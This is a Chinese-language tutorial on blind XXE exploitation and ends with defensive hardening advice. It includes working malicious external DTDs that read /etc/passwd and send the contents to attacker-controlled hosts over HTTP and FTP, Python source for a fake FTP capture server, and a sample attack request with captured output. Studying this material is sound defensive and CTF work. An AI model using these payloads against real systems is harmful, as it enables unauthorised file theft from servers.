

# 无回显Blind-XXE深度剖析：带外信道(OOB)数据窃取与DNS-FTP通道利用

---

## 0. 基础前置知识扫盲：当页面没有任何回显时怎么办？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


在上一篇笔记中，我们利用了“有回显 XXE”直接在页面上打印出了 `/etc/passwd`。
但在现实渗透中，超过 80% 的真实业务场景是**无回显的（Blind XXE）**：
- 比如你向银行支付网关、微信支付回调接口发送一个带有外部实体的 XML；
- 服务器后台默默解析了你的 XML，但是在 HTTP 响应中只冷冰冰地返回了一句：
  `{"status": 200, "message": "Callback processed successfully."}`
- 页面根本不会把你引用的实体内容打印出来！

### 1. 通俗生活类比：密室里的“间谍寄信”
- **有回显 XXE**：间谍在密室里找到绝密文件，推开窗户大声念给外面的人听（直接回显在网页上）。
- **无回显 Blind XXE**：密室是完全隔音的，窗户焊死了（页面没有任何回显）。
  - **解决办法（带外信道 OOB, Out-Of-Band）**：
    间谍在密室里虽然不能说话，但他能写信寄到外面！
    攻击者在发给服务器的 XML 里下达两条指令：
    1. **指令 A**：“请读取你本地硬盘上的秘密文件 `/etc/shadow`”；
    2. **指令 B**：“把刚才读出来的文件内容作为参数，**悄悄给攻击者的公网服务器发一封 HTTP/FTP 请求**（例如访问 `http://attacker.com/?data=<文件内容>`）！”
  - 攻击者坐在自己的公网服务器前，翻看 Web 访问日志，绝密文件赫然在目！



---

## 1. W3C 语法铁律与外部 DTD 绕过机理

很多初学者在尝试 Blind XXE 时，会直觉性地写出如下内部 DTD：
```xml
<!-- 错误写法：直接在内部 DTD 拼接 -->
<!DOCTYPE root [
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % send SYSTEM "http://attacker.com/?data=%file;">
    %send;
]>
```
**结果：服务器 100% 报错，漏洞利用失败！**

### 1.1 为什么内部 DTD 会失败？（W3C 规范约束）
XML 官方标准（W3C XML Recommendation）中有严格的语法限制：
> **“在内部 DTD 子集中，禁止使用参数实体引用来声明其他实体的定义值。”**

也就是说，解析器在解析内部 DTD 时，看到 `%file;` 被嵌套在另一个实体的声明字符串内部，会直接判定为非法语法并抛出异常。

### 1.2 破解之法：将恶意逻辑转移到“外部 DTD（External DTD）”
W3C 规范留出了一个巨大的合法空子：**上述限制仅适用于内部 DTD；一旦参数实体是在外部 `.dtd` 文件中定义的，允许进行任意嵌套与动态拼装！**

因此，攻击者采用“两步跳板法”：
1. 本地 XML 仅仅充当“引线”，通过 URL 引入攻击者 VPS 上的 `evil.dtd`；
2. 所有的嵌套、拼接与数据外带逻辑，全部写在远端的 `evil.dtd` 中！

---

## 2. 参数实体嵌套黑魔法：`&#x25;` 实体编码拆解

在编写外部 `evil.dtd` 时，如何把读出来的文件内容动态拼接到外带的 URL 中？这需要用到**三层参数实体嵌套**：

### 2.1 恶意 `evil.dtd` 源码结构剖析

```xml
<!-- 步骤 A：定义参数实体 %file，读取目标机器的本地文件 -->
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">

<!-- 步骤 B：定义参数实体 %eval，用于动态生成第三个实体 %exfiltrate -->
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker-vps.com:8888/?leak=%file;'>">

<!-- 步骤 C：执行 %eval，使其在内存中展开并完成注册 -->
%eval;

<!-- 步骤 D：执行刚生成的 %exfiltrate，触发向攻击者 VPS 发起回传请求 -->
%exfiltrate;
```

#### 关键参数与编码深度剖析：
- **`&#x25;` 的本质是什么？**
  - 十六进制 `0x25` 对应的 ASCII 字符正是百分号 `%`！
  - **为什么不能直接写 `%exfiltrate`？**
    如果直接写成 `<!ENTITY % exfiltrate ...>`，在解析器初次读取 `evil.dtd` 时，会误以为这是要立即执行的实体，导致嵌套逻辑错乱。
    将其转义为 HTML/XML 实体编码 `&#x25;`，解析器在第一轮编译时只会将其当成普通字符；等 `%eval;` 执行展开后，`&#x25;` 才会还原为真正的 `%`，从而顺理成章地定义并触发 `%exfiltrate;`！

---

## 3. 突破换行符截断：恶意 FTP 服务外带实战

通过 HTTP 协议（`http://attacker/?leak=...`）外带数据虽然简单，但有一个致命短板：
- **换行符致命伤**：如果要读取的文件是普通文本（未经过 Base64 编码，或者后端是 Java 环境无法使用 `php://filter`），文本内部包含换行符 `\n` 或空格；
- **请求破坏**：当换行符被拼接到 HTTP 请求头中时，HTTP 请求行格式瞬间损坏，导致 Java 的 `java.net.URL` 直接抛出 `Illegal character in URL` 异常，数据根本发不出来！

### 3.1 FTP 协议外带的绝对优势
FTP 协议基于 TCP 长连接，它允许客户端向服务端发送任意多级目录路径或用户名：
- 目标服务器会尝试向攻击者的 FTP 服务端发送 `CWD /<文件内容>` 或 `RETR /<文件内容>`；
- 攻击者只需编写一个极简的 Python 伪造 FTP 接收器，就能无损捕获包含多行换行符的文件全文！

### 3.2 攻击者公网 VPS 恶意 FTP 监听服务源码（`fake_ftp_server.py`）

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
Blind XXE 专用恶意伪造 FTP 数据捕获服务器
原理：模拟基础 FTP 握手，捕获客户端发送的敏感文件内容路径
"""
import socket
import urllib.parse

HOST = "0.0.0.0"
PORT = 2121

server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
server.bind((HOST, PORT))
server.listen(10)

print(f"[*] Blind XXE 恶意 FTP 监听器已就绪，正在监听端口 {PORT}...")

while True:
    client, addr = server.accept()
    print(f"\n[+] 收到来自受害机器 {addr[0]} 的连接请求!")
    try:
        # 1. 模拟 FTP 欢迎响应
        client.send(b"220 Fake FTP Server Ready\r\n")
        
        while True:
            data = client.recv(1024).decode('utf-8', errors='ignore')
            if not data:
                break
            
            # 打印客户端发送的每一条 FTP 指令
            print(f"    --> 捕获指令: {data.strip()}")
            
            # 当客户端尝试输入用户名或切换目录时，说明数据已经夹带在参数中
            if data.startswith("USER"):
                client.send(b"331 Password required\r\n")
            elif data.startswith("PASS"):
                client.send(b"230 Logged in\r\n")
            elif data.startswith("CWD") or data.startswith("RETR"):
                # 捕获到了文件内容!
                leak_data = data[4:].strip()
                print(f"\n[★ 核心战果] 成功捕获泄露文件内容:\n{leak_data}\n")
                client.send(b"250 Directory changed\r\n")
            elif data.startswith("QUIT"):
                client.send(b"221 Goodbye\r\n")
                break
            else:
                client.send(b"500 Command not understood\r\n")
    except Exception as e:
        print(f"[-] 异常: {str(e)}")
    finally:
        client.close()
```

---

## 4. CTF / 实战综合挑战演练：Java 环境下无回显窃取系统密码

### 赛题环境：
- 目标后端：Java Spring Boot + 老旧 XML 解析器；
- 目标行为：接收 POST XML 数据，处理完成后仅返回 `{"code":0, "msg":"success"}`；
- 防火墙：允许目标服务器向外部发起公网 TCP 连接（未做严格出站白名单）。

### 突破全流程操作：

#### 步骤 1：攻击者 VPS 准备工作
1. 在攻击者公网 VPS（IP: `1.1.1.1`）启动刚才的 `fake_ftp_server.py`，监听 `2121` 端口；
2. 在攻击者公网 Web 目录部署 `leak.dtd`（访问路径 `http://1.1.1.1/leak.dtd`）：
   ```xml
   <!ENTITY % file SYSTEM "file:///etc/passwd">
   <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'ftp://1.1.1.1:2121/%file;'>">
   %eval;
   %exfiltrate;
   ```

#### 步骤 2：向受害目标发送触发数据包
在 Burp Suite 中向目标接口发送如下 XML 引导载荷：
```http
POST /api/order_sync HTTP/1.1
Host: victim-system.com
Content-Type: application/xml
Content-Length: 156

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ENTITY % remote SYSTEM "http://1.1.1.1/leak.dtd">
    %remote;
]>
<root>
    <orderId>12345</orderId>
</root>
```

#### 步骤 3：收获战果
目标系统在接收到请求后，立即在后台向攻击者 VPS 请求了 `leak.dtd`。
随后，攻击者的恶意 FTP 终端屏幕上瞬间打印出日志：
```text
[+] 收到来自受害机器 120.25.10.x 的连接请求!
    --> 捕获指令: USER anonymous
    --> 捕获指令: PASS anonymous
    --> 捕获指令: CWD root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
flag:x:1000:1000:flag{Blind_XXE_OOB_FTP_Exf1ltrat10n_M4st3r}:/home/flag:/bin/bash

[★ 核心战果] 成功捕获泄露文件内容!
```
目标敏感系统的真实账户清单与 Flag 被完整无损外带获取！

---

## 5. 蓝队企业级纵深防御与加固规范

1. **解析器层级全面封禁 DTD**：
   - 绝不仅是封禁外部通用实体，**必须同时封禁外部参数实体和任何外部 DTD 加载**：
     ```java
     dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
     dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
     ```
2. **网络层实施严格的“出站流量白名单（Egress Filtering）”**：
   - 在企业云防火墙或网络边界上，严格限制服务器主动向外发起请求的能力；
   - 生产数据库服务器和业务处理核心，**默认禁止访问外部非受信 IP 的 80/443 以及 21 (FTP) 端口**，使得即便存在 XXE 漏洞，OOB 带外信道也无法建立回连。
